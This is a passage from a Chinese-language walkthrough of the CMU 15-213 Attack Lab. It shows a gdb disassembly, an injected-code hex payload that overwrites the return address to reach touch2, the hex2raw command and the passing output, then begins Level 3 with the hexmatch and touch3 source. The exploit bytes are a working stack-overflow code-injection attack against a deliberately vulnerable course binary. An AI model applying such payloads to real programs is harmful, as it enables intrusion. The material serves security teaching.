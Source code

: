 ```
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
=> 0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
End of assembler dump.
(gdb) print $rsp
$1 = (void *) 0x5561dc78
```

由上可知：缓冲区地址为0x5561dc78，按照Level 1的做法，把这个地址放在第41到44个字节的位置（小端模式），生成输入字符如下：

```
48 c7 c7 fa 
97 b9 59 68 
ec 17 40 00 
c3 00 00 00
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
78 dc 61 55
```

存入文件phase2.txt中，再使用hex2ram生成字节码：

```
hex2ram < phase2.txt > phase2_input.txt
```

5)  再执行ctarget，查看结果：

使用如下命令测试，同时查看结果：

```
./ctarget -qi phase2_input.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 0000 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55
```

Level 2通过。 

### Level 3

Level 3类似与Level 2，也是需要插入一段代码，是程序运行touch3，而不是返回test。但是这一关多了一个函数hexmatch，两段C程序代码如下： 

```C++
int hexmatch(unsigned val, char *sval){
    char cbuf[110];
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
void touch3(char *sval){
    vlevel = 3;
    if (hexmatch(cookie, sval)){
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
```